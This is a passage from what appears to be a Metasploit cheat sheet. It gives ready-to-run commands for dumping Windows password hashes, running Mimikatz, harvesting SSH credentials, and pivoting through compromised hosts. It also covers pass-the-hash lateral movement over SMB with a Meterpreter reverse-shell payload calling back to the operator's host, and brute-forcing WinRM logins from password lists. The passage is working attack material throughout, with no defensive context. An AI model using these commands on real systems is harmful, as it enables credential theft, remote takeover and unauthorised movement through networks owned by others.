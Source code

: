 ```text
use post/windows/gather/hashdump
set SESSION <id>
run
```

**Mimikatz (Windows)**

```text
use post/windows/gather/credentials/mimikatz
set SESSION <id>
run
```

**SSH Credential Harvesting (Multi)**

```text
use post/multi/gather/ssh_creds
set SESSION <id>
run
```

**Pivoting / Routing**

```text
use post/multi/manage/autoroute
set SESSION <id>
run

use auxiliary/server/socks4a
set SRVPORT 1080
run
```

---

## 🔀 Lateral Movement

**SMB Pass‑the‑Hash (Windows)**

```text
use exploit/windows/smb/psexec
set RHOSTS <target>
set SMBUser <user>
set SMBDomain <domain_or_.>
set SMBPass aad3b435b51404eeaad3b435b51404ee:<NThash>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your_ip>
exploit
```

**WinRM / RDP Login Scan**

```text
use auxiliary/scanner/winrm/winrm_login
set RHOSTS <cidr>
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```
